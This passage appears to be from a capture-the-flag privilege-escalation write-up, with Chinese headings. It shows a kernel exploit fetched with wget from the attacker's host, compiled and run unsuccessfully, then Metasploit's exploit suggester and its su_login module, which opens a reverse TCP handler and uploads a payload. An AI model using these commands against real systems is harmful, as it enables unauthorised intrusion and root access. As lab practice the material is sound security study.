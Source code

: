 ```bash
└─# cp exp_file_credential.c ../files 
```

Remote:

```bash
-bash-5.0$ wget 10.10.14.45/exp_file_credential.c
-bash-5.0$ cc -O0 exp_file_credential.c -lpthread -o qaq
-bash-5.0$ ./qaq
self path /home/player/./qaq
prepare done
Old limits -> soft limit= 14096          hard limit= 14096 
starting exploit, num of cores: 2
defrag done
spray 256 done
freed the filter object
256 freed done
double free done
spraying files
no overlap found :(...
failed
```


### Metasploit Exploit Suggester (失敗)

不得已只好試試metasploit，也失敗

```bash
msf6 post(multi/recon/local_exploit_suggester) > exploit 

[*] 10.10.11.194 - Collecting local exploits for x86/linux...
[*] 10.10.11.194 - 176 exploit checks are being tried...
[+] 10.10.11.194 - exploit/linux/local/su_login: The target appears to be vulnerable.
[*] Running check method for exploit 53 / 53
[*] 10.10.11.194 - Valid modules for session 4:
============================

 #   Name                                                               Potentially Vulnerable?  Check Result
 -   ----                                                               -----------------------  ------------
 1   exploit/linux/local/su_login                                       Yes                      The target appears to be vulnerable.
...

msf6 exploit(linux/local/su_login) > set session 4
session => 4
msf6 exploit(linux/local/su_login) > exploit 

[*] Started reverse TCP handler on 10.10.14.45:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Uploading payload to target
[*] Attempting to login with su
[*] Exploit completed, but no session was created.
```
